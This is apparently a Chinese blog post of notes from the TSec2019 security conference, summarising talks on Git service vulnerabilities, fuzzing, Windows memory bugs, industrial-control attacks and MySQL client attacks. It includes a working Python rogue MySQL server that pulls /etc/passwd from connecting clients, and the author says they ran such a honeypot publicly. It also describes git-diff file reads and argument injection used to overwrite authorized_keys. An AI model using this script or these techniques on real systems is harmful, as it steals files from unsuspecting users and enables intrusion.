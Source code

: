 ```yaml
---
layout: post
title:  "TSec2019 聆听笔记"
categories: note
tags: note
author: ble55ing
---
```


* content
{:toc}
## TSec2019 聆听笔记

参加了TSec2019的分享会，有一些思考和感悟，正好现在PPT也分享出来了，特地在此记下来。

从大会上可以看出学校和企业的主要不同，来自学校的分享以漏洞发现工具为主，如何通过特征来发现有漏洞的代码；来自企业人员的分享主要是实际的漏洞发现为主。二者都很有意思，也让我收获很大，其中的一些漏洞打算在接下来的一段时间里复现一下（最近挖的坑好像有点多了）。

### 文心雕“虫”----利用自然语言理解技术发现内存破坏漏洞

作者开发了NLP-EYE一种工具，这是一个源码漏洞发现工具，用的是对函数名称的理解，用于解决当前的源码检测工具会漏报非标准库函数、无法识别间接跳转、第三方库函数、编译单元外函数定义、不同的内存管理方式的问题。目前的CPP检测工具：cppcheck，infer和CSA

#### 识别并定位内存管理函数

这一工具分析函数名和参数，建立语料库，对函数名进行分词，比较，验证。如```void *AcquireQuantumMemory(const size_t count,const size_t quantum)    ```和 ```void* malloc( size_t size );   ```，Acquire对应alloc，Memory对应m，count对应size。

主要分词难点在于缩写的使用、命名的风格和自然语言处理。解决是采用定制语料库的方式。wekipedia内容太复杂，customized corpus(太小了) stackoverflow:编程语言敏感，够大，比较好。分析返回值和参数，归一化为指针和数值两种类型

#### 标记并跟踪内存的分配、释放、访问情况    

采用clang 进行静态分析。

#### 检测内存使用违规    

是否存在可能的空指针解引用、Double free、UAF等漏洞

### 对于Git版本控制服务的通用攻击面探索

Git没有对横向的访问权限进行控制。针对Gitlay（Git gRPC service of GitLab）是git提供的服务。

这些是使用Ruby和Go，需要使用的AST生成器RuboCop(Ruby)和Guru(Co)

找到使用os/exec.Command的地方，看看能不能用

#### git-bundle

(CVE-2019- 6240)，Git RPC executes git clone uploaded bundle file.  

GitLab使用git-bundle解决项目的导入导出

这个漏洞可以实现水平方向上获取别人的代码

#### git-diff

(CVE 2019-9221)Read arbitrary file via git diff command

用于比较两个版本代码的不同

这个方法的使用为```git diff sha1 sha2```，但是在实际的使用过程中，这两个参数可以不必是sha值，如/etc/passwd 和/etc/hosts，那么就能够得到这些文件里的数据了

#### git-lfs 

(CVE-2018-20144 & CVE-2018-20499)Read arbitrary file and SSRF

跟踪大文件的插件。

攻击过程是这样的：developer 发送git clone 给Bitbucket，Bitbucket回git pack file；Develop问```while is file <sha>```，Bitbucket回它在LFS store，然后Developer发```GET .../<objectSHA>```给LFS store。

```tail -n 20 lfs-objects/sha256```。。具体什么意思，不是很清楚，需要再看PPT

#### git- archive

(CVE 2019-12430) File overwritten to RCE via parameter injection

一个打包所有文件指令，存在命令注入，如果文件名是以--开头的，那么就会被认为是一个程序的参数而不是路径，这样存在了一个文件覆盖漏洞。用这个文件漏洞去覆盖authorize keys，就可以gets shell了。

![](https://raw.githubusercontent.com/ble55ing/PicGo/master/%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_20190811211326.png)

为什么用tar：tar是一个打包协议，而不是压缩协议，所以能明文携带payload

作者点评：	git 这种的工具的服务端或多或少会有服务器执行用户端命令的操作，
			开发者可能缺少这方面安全意识(伪装git服务器的问题)

### 流敏感的模糊测试系统（待PPT补充）

AFL的插桩改进：

​	将基本块分为三类进行插桩：

​	Fmul 可搜索到的多前驱基本块

​	Fhash: 没搜索到的多前驱基本块

​	Fsingle：单前驱的基本块

![](https://raw.githubusercontent.com/ble55ing/PicGo/master/%E5%BE%AE%E4%BF%A1%E5%9B%BE%E7%89%87_20190813200751.jpg)

​	Fmul 是选择合适的xyz使得多前驱的路径不同，插入时计算，保证路径不重复的路径插桩方式。

我提出的关于插桩的问题：这种插桩方式的内存占用率大概多少; 多入度的基本块能否找到这样的xyz。

100M程序内存占用256K

### Comprehensive analysis of the mysql client attack chain 

mysql允许服务器端读取客户端有读权限的任意文件。

TCTF 2018 Final h4x0rs.club pt.3    Dragon Sector && Cykor    的非预期

无论用户端发任何请求，只要服务器返回想要读取某文件，而且该文件可读，就会给它传这个文件。

（这种情况还可能发生在在线文档、云服务中）

因此可以尝试在公网布置一个蜜罐，得到尝试连接者的文件。ARF能将泄露变成getchell。

然后就去尝试搞了一个，还真可以。

附上网传的一个伪造服务器

```
#coding=utf-8
import socket
import logging
logging.basicConfig(level=logging.DEBUG)

filename="/etc/passwd"
sv=socket.socket()
sv.bind(("",3306))
sv.listen(5)
conn,address=sv.accept()
logging.info('Conn from: %r', address)
conn.sendall("\x4a\x00\x00\x00\x0a\x35\x2e\x35\x2e\x35\x33\x00\x17\x00\x00\x00\x6e\x7a\x3b\x54\x76\x73\x61\x6a\x00\xff\xf7\x21\x02\x00\x0f\x80\x15\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x70\x76\x21\x3d\x50\x5c\x5a\x32\x2a\x7a\x49\x3f\x00\x6d\x79\x73\x71\x6c\x5f\x6e\x61\x74\x69\x76\x65\x5f\x70\x61\x73\x73\x77\x6f\x72\x64\x00")
conn.recv(9999)
logging.info("auth okay")
conn.sendall("\x07\x00\x00\x02\x00\x00\x00\x02\x00\x00\x00")
conn.recv(9999)
logging.info("want file...")
wantfile=chr(len(filename)+1)+"\x00\x00\x01\xFB"+filename
conn.sendall(wantfile)
content=conn.recv(9999)

logging.info(content)
conn.close()
```

### Sorry It's Not Your Page

感觉可以复现一下啊

windows 分段式基本可以忽略，主要看分页式，不同程序的虚拟地址一样，实际地址不同;

每个进程独占用户空间，但共享内核空间。内核空间采用写时复制技术，确保数据安全。

物理页面混淆漏洞？CVE-2019-0892

会话空间是内核空间的一部分，同一会话的进程，同样虚拟地址为同一物理地址

这个漏洞可以发生在分配之前，可以先占位，可能导致UAF 

解决思路：

使用错误的页表进行虚拟地址转换会导致物理页面混淆类漏洞

操作系统应当提供机制来判断是否可以安全的使用虚拟地址

开发人员应当认识到这类漏洞的存从而做出相应的处理 

### 工控系统安全分析

分析思路：

入侵上位机 -> 劫持编程软件dll -> 注入OT载荷 -> 破坏离心机

接入内网 -> 注入加载器 -> 注入OT载荷 -> 破坏物理系统

